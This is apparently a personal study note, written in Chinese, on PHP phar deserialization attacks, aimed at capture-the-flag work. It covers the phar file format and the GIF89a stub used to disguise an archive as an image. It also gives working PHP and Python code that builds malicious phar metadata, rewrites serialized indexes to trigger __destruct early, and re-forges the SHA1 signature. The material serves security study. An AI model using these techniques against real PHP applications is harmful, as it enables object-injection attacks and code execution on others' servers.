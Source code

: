 # 介绍
	- phar 类似于压缩包，但除了文件之外，phar 还包含一个被序列化的对象。
	  当我们用`phar://phar.gif/test.txt`访问 phar 文件`phar.gif`内的文件时，插入其中的对象会被反序列化，并会在之后被销毁（也就是会执行`__destruct()`）。
	- {{embed ((66a359e7-00fa-407c-93ab-64606e9f1637))}}
- # .phar 文件格式
	- [文档](https://www.php.net/manual/en/phar.fileformat.php)
	- 1. `phar`文件头的识别格式是`xxx` + `<?php __HALT_COMPILER(); ?>`，只有这样的格式才能被识别为`phar`文件
	  2. `phar`是压缩文件，那么压缩文件的信息就会存在第二段**manifest describing**，这一段是放序列化的`poc`
	  3. 压缩的文件的内容被存在第三段，也就是上面 payload 的中的`text.txt`
	  4. 数字签名为该`phar`的第四段
	- Phar文件支持gzip压缩等压缩格式，即使压缩成了`phar.phar.gz`之类的格式也能正常读写。
		- [参考](https://www.anquanke.com/post/id/240007#h2-5)
	- 如何修改数字签名
		- 这里的数字签名仅是md5,sha1等哈希算法对前面部分的哈希
		- 其中具体使用什么哈希算法可以参照[这里](https://www.php.net/manual/en/phar.fileformat.signature.php)对比结尾得知
		- 在修改了前面一部分之后可以这么重新签名
			- ```python
			  def sha1_hash(s):
			      sha1_obj = hashlib.sha1()
			      sha1_obj.update(s)
			      return sha1_obj.digest()
			  with open("test/phar.phar", "rb") as f:
			      content = f.read()
			      # content = content.replace(b"i:1;i:114514;", b"i:0;i:114514;")
			      print(content)
			      content = content[:-28] + sha1_hash(content[:-28]) + content[-8:]
			      print(content)
			      with open("modified.phar", "wb") as out:
			          out.write(content)
			  ```
- # Phar上的快速触发GC
	- 普通的快速触发GC：将对象放入一个array中，在后面加入一个数字，然后将`i:1`（数字的下标）改成`i:0`（对象的下标）即可
	- Phar上操作类似，只不过需要重新产生签名
		- ```php
		  $o = new getflag();
		  $o = [$o, 114514];
		  //打开phar文件
		  @unlink("phar.phar");
		  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
		  $phar->startBuffering();
		  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
		  
		  //放入对象
		  $phar->setMetadata($o);
		  
		  //添加压缩的文件（test为其中的内容）
		  $phar->addFromString("test.txt", "test114514");
		  $phar->stopBuffering();
		  
		  ```
		- ```python
		  def sha1_hash(s):
		      sha1_obj = hashlib.sha1()
		      sha1_obj.update(s)
		      return sha1_obj.digest()
		  # 打开上方PHP生成的phar文件
		  with open("test/phar.phar", "rb") as f:
		      content = f.read()
		      assert content[-8] == 2 # sha1
		      content = content.replace(b"i:1;i:114514;", b"i:0;i:114514;")
		      print(content)
		      content = content[:-28] + sha1_hash(content[:-28]) + content[-8:]
		      print(content)
		      with open("modified.phar", "wb") as out:
		          out.write(content)
		  ```
	-
- # 生成 Phar 文件
	- ```php
	  <?php
	  //反序列化payload构造
	  class TestObject {
	  }
	  $o = new TestObject();
	  $o->data='just a test';
	  //打开phar文件
	  @unlink("phar.phar");
	  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
	  $phar->startBuffering();
	  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
	  
	  //放入对象
	  $phar->setMetadata($o);
	  
	  //添加压缩的文件（test为其中的内容）
	  $phar->addFromString("test.txt", "test");
	  $phar->stopBuffering();
	  @system("gzip -f phar.phar");
	  echo 'use phar.phar.gz';
	  ?>
	  ```
- # 利用 Phar 文件
	- ```php
	  <?php
	  	class TestObject{
	          function __destruct(){
	              echo $this->data;
	          }
	  	}
	  
	  	include "phar://phar.phar/test.txt";
	  ?>
	  ```
	  
	  访问`phar://phar.phar`也可以利用
- # 其他
	- https://www.php.net/manual/en/phar.using.intro.php
	- phar 文件中可以塞 PHP 命令
-